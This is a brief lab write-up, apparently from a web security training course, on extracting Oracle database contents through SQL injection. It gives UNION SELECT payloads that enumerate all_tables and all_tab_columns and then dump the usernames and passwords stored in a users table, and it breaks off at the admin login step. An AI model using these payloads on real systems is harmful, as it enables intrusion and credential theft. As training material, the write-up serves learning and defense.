

# Lab: SQL injection attack, listing the database contents on Oracle

- Same as lab 9, but now the used DB is oracle
- Logically, we should follow the same steps, and we should be able to solve the lab successfully. 
  
## Steps: 
1. number of column 2.
2. data types strings 2.
3. Check table names:
   1. ' Union Select table_name, 'a' from all_tables --
   2. Users table is: USERS_MZWIFC
4. Check columns names: 
   1. ' Union Select column_name, 'a' from all_tab_columns where table_name = 'USERS_MZWIFC' -- 
   2. we get USERNAME_MNUVGF, PASSWORD_PPOZJE
5. Now we can simply get all users and passwords: 
   1. ' Union Select USERNAME_MNUVGF, PASSWORD_PPOZJE from USERS_MZWIFC -- 
   2. 
6. We can now log in with admin:
   1. 